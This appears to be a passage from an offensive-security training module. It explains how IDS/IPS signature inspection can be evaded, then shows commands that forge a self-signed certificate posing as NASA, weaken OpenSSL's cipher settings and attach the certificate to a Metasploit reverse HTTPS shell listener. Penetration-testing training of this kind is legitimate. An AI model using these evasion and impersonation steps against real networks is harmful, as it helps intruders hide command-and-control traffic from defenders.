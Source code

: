 Traditionally, network Intrusion Detection Systems (IDS) or Intrusion Prevention Systems (IPS) protect against incoming malicious traffic. However, they are often used to filter outgoing traffic. The main difference between these devices is that an IPS is an active device sitting in-line of the traffic and can block traffic, while a traditional IDS is a passive device which does not sit inline and is designed to only alert.

However, both devices will perform deep packet inspection. Large chunks of data are generally fragmented as they traverse the IP network, because some links have low Maximum Transmission Unit (MTU) values, which limits the size of packets that can be transferred over the network medium. This process is called IP fragmentation. Because of this fragmentation, IDS and IPS devices will first need to  packets to reconstruct the data. The devices will then examine the content of the traffic beyond IP addresses and port numbers, and inspect application layer data in search of identifiable patterns defined by signatures.

These signatures are often created by malware analysts using methods similar to antivirus signature creation and must be very specifically tuned for accuracy. This tuning process can work to our advantage, allowing us to evade detection by making very small changes to an otherwise suspicious traffic pattern.

# Custom Certificates
Manually create a self-signed certificate with openssl,535 which allows us full control over the certificate details. We don’t need to own a domain for this approach but if the certificate is passing through HTTPS inspection (which is covered later in this module), the traffic might flag because of an untrusted certificate.

However, despite the drawback of potential HTTP inspection flagging our traffic, we’ll try this approach and generate a new self-signed certificate and private key that appears to be from NASA. We’ll use several openssl options:
- req: Create a self-signed certificate.
- -new: Generate a new certificate.
- -x509: Output a self-signed certificate instead of a certificate request. 
- -nodes: Do not encrypt private keys.
- -out cert.crt: Output file for the certificate.
- -keyout priv.key: Output file for the private key.

Let’s put these options together and run the command.
```bash
kali@kali:~$ openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
Generating a RSA private key
...
writing new private key to 'priv.key'
...
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:TX
Locality Name (eg, city) []:Houston
Organization Name (eg, company) [Internet Widgits Pty Ltd]:NASA
Organizational Unit Name (eg, section) []:JSC
Common Name (e.g. server FQDN or YOUR name) []:nasa.gov
Email Address []:info@nasa.gov
Listing 396 - Generating self signed certificate
```
In order to use this certificate and key with Metasploit, we must create a .pem file by simply concatenating the key and certificate with cat.
```bash
kali@kali:~$ cat priv.key cert.crt > nasa.pem
```

We also must change the CipherString536 in the /etc/ssl/openssl.cnf config file or our reverse HTTPS shell will not work properly. First, we will locate this line in the config file:
```
CipherString=DEFAULT@SECLEVEL=2
```

We will remove the “@SECLEVEL=2” string, as the SECLEVEL538 option limits the usable hash and cypher functions in an SSL or TLS connection. We’ll set this to “DEFAULT”, which allows all.

The new configuration should be set according to the listing below.
```
CipherString=DEFAULT
```

Finally, we’ll configure Metasploit to use our newly-created certificate through the HandlerSSLCert option, which we’ll set to the path of our nasa.pem file. Once this is set, we’ll restart our listener.
```bash
msf5 exploit(multi/handler) > set HandlerSSLCert /home/kali/self_cert/nasa.pem
handlersslcert => /home/kali/self_cert/nasa.pem
msf5 exploit(multi/handler) > exploit
[*] Started HTTPS reverse handler on https://192.168.119.120:4443
```